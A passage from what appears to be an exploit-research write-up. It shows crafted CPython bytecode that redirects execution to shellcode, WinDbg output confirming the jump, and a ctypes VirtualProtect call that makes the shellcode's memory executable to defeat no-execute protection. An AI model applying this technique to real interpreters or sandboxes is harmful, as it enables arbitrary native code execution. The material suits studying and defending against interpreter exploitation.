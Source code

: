 ```python
idx = (control_data_addr - _frame_f_localsplus_offset - frame_addr)//8
print("index:", hex(idx))
assign_bytecode(bytecode2(idx))

# Returns our call gadget
run = g()

# Run our call gadget
run()
```

Running it in WinDbg we get:

```
(5b78.4910): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
00000211`f8108290 cc              int     3
0:000> da
00000211`f8108290  ". Hello Success!!!"
```

And success!! We made CPython jump to `shellcode`!

### Not Yet

You might notice that the error for the crash above is `c0000005` and not `80000003`. This means that we are getting an `Access violation` rather than a `Break instruction exception` as expected when executing an `int 3` instruction. This is because of page permissions:

```
0:000> !address rip

Usage:                  <unknown>
Base Address:           00000211`f8070000
End Address:            00000211`f8170000
Region Size:            00000000`00100000 (   1.000 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE // <-- No execute :(
Type:                   00020000          MEM_PRIVATE
Allocation Base:        00000211`f8070000
Allocation Protect:     00000004          PAGE_READWRITE


Content source: 1 (target), length: 67d70
```

The page does not have execute permission. We can maybe find some fancy gadget to ROP our way out of this or smth but at this point I'm lazy so I just used `ctypes` to change the page permissions. It's boring.

```python
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
old = ctypes.c_long(1)
res = VirtualProtect(
    ctypes.c_void_p(shellcode_addr), 
    len(shellcode), 0x40, ctypes.byref(old))
```
